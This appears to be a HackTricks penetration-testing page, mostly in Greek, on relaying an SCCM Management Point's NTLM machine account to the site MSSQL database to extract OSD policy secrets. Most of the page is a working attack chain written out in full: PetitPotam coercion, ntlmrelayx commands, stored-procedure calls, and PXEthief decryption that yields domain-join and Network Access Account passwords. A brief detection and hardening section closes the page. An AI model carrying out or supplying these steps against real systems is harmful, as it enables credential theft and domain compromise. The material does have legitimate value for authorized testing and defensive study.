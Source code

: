 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction

{{#include ../../banners/hacktricks-training.md}}

## TL;DR
Με την πίεση ενός **System Center Configuration Manager (SCCM) Management Point (MP)** να αυθεντικοποιηθεί μέσω SMB/RPC και **αναμεταδίδοντας** αυτόν τον λογαριασμό μηχανής NTLM στη **βάση δεδομένων του ιστότοπου (MSSQL)** αποκτάτε δικαιώματα `smsdbrole_MP` / `smsdbrole_MPUserSvc`.  Αυτοί οι ρόλοι σας επιτρέπουν να καλέσετε ένα σύνολο αποθηκευμένων διαδικασιών που εκθέτουν **Operating System Deployment (OSD)** blobs (διαπιστευτήρια Network Access Account, μεταβλητές Task-Sequence, κ.λπ.).  Τα blobs είναι κωδικοποιημένα/κρυπτογραφημένα σε hex αλλά μπορούν να αποκωδικοποιηθούν και να αποκρυπτογραφηθούν με **PXEthief**, αποκαλύπτοντας κείμενα μυστικά.

High-level chain:
1. Discover MP & site DB ↦ unauthenticated HTTP endpoint `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. Start `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`.
3. Coerce MP using **PetitPotam**, PrinterBug, DFSCoerce, κ.λπ.
4. Through the SOCKS proxy connect with `mssqlclient.py -windows-auth` as the relayed **<DOMAIN>\\<MP-host>$** account.
5. Execute:
* `use CM_<SiteCode>`
* `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
* `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (or `MP_GetPolicyBodyAfterAuthorization`)
6. Strip `0xFFFE` BOM, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

Secrets such as `OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password`, κ.λπ. ανακτώνται χωρίς να αγγίξετε PXE ή πελάτες.

---

## 1. Enumerating unauthenticated MP endpoints
Η επέκταση ISAPI του MP **GetAuth.dll** εκθέτει αρκετές παραμέτρους που δεν απαιτούν αυθεντικοποίηση (εκτός αν ο ιστότοπος είναι μόνο PKI):

| Parameter | Purpose |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | Επιστρέφει το δημόσιο κλειδί πιστοποίησης υπογραφής του ιστότοπου + GUIDs των συσκευών *x86* / *x64* **All Unknown Computers**. |
| `MPLIST` | Λίστα με κάθε Management-Point στον ιστότοπο. |
| `SITESIGNCERT` | Επιστρέφει το πιστοποιητικό υπογραφής του Primary-Site (αναγνωρίζει τον διακομιστή ιστότοπου χωρίς LDAP). |

Grab the GUIDs that will act as the **clientID** for later DB queries:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```
---

## 2. Μεταβίβαση του λογαριασμού μηχανής MP στο MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
-u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
Όταν ενεργοποιηθεί η εξαναγκαστική διαδικασία, θα πρέπει να δείτε κάτι σαν:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```
---

## 3. Εντοπισμός πολιτικών OSD μέσω αποθηκευμένων διαδικασιών
Συνδεθείτε μέσω του SOCKS proxy (θύρα 1080 από προεπιλογή):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
Μεταβείτε στη βάση δεδομένων **CM_<SiteCode>** (χρησιμοποιήστε τον τριψήφιο κωδικό τοποθεσίας, π.χ. `CM_001`).

### 3.1  Βρείτε GUIDs Άγνωστων Υπολογιστών (προαιρετικό)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```
### 3.2  Λίστα ανατεθειμένων πολιτικών
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
Κάθε γραμμή περιέχει `PolicyAssignmentID`,`Body` (hex), `PolicyID`, `PolicyVersion`.

Επικεντρωθείτε σε πολιτικές:
* **NAAConfig**  – Διαπιστευτήρια λογαριασμού πρόσβασης δικτύου
* **TS_Sequence** – Μεταβλητές ακολουθίας εργασιών (OSDJoinAccount/Password)
* **CollectionSettings** – Μπορεί να περιέχει λογαριασμούς εκτέλεσης

### 3.3  Ανάκτηση πλήρους σώματος
Εάν έχετε ήδη `PolicyID` & `PolicyVersion` μπορείτε να παραλείψετε την απαίτηση clientID χρησιμοποιώντας:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> ΣΗΜΑΝΤΙΚΟ: Στο SSMS αυξήστε το “Μέγιστο Πλήθος Χαρακτήρων που Ανακτήθηκαν” (>65535) ή το blob θα κοπεί.

---

## 4. Αποκωδικοποιήστε & αποκρυπτογραφήστε το blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
Ανακτημένα μυστικά παράδειγμα:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```
---

## 5. Σχετικοί ρόλοι & διαδικασίες SQL
Κατά την αναμετάδοση, η σύνδεση αντιστοιχίζεται σε:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

Αυτοί οι ρόλοι εκθέτουν δεκάδες δικαιώματα EXEC, τα κύρια που χρησιμοποιούνται σε αυτή την επίθεση είναι:

| Αποθηκευμένη Διαδικασία | Σκοπός |
|-------------------------|--------|
| `MP_GetMachinePolicyAssignments` | Λίστα πολιτικών που εφαρμόζονται σε ένα `clientID`. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | Επιστρέφει το πλήρες σώμα πολιτικής. |
| `MP_GetListOfMPsInSiteOSD` | Επιστρέφεται από τη διαδρομή `MPKEYINFORMATIONMEDIA`. |

Μπορείτε να ελέγξετε τη πλήρη λίστα με:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
AND  pe.permission_name='EXECUTE';
```
---

## 6. Ανίχνευση & Σκληροποίηση
1. **Παρακολούθηση συνδέσεων MP** – οποιοσδήποτε λογαριασμός υπολογιστή MP που συνδέεται από μια IP που δεν είναι η κεντρική του ≈ relay.
2. Ενεργοποιήστε την **Εκτενή Προστασία για Αυθεντικοποίηση (EPA)** στη βάση δεδομένων του ιστότοπου (`PREVENT-14`).
3. Απενεργοποιήστε το μη χρησιμοποιούμενο NTLM, επιβάλετε την υπογραφή SMB, περιορίστε το RPC (
οι ίδιες μετρήσεις που χρησιμοποιούνται κατά του `PetitPotam`/`PrinterBug`).
4. Σκληρύνετε την επικοινωνία MP ↔ DB με IPSec / αμοιβαίο TLS.

---

## Δείτε επίσης
* Βασικές αρχές NTLM relay:
{{#ref}}
../ntlm/README.md
{{#endref}}

* Κατάχρηση MSSQL & μετα-εκμετάλλευση:
{{#ref}}
abusing-ad-mssql.md
{{#endref}}



## Αναφορές
- [Θα ήθελα να μιλήσω με τον διευθυντή σας: Κλέβοντας μυστικά με Management Point Relays](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [Διαχειριστής Κακής Διαμόρφωσης – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)
{{#include ../../banners/hacktricks-training.md}}
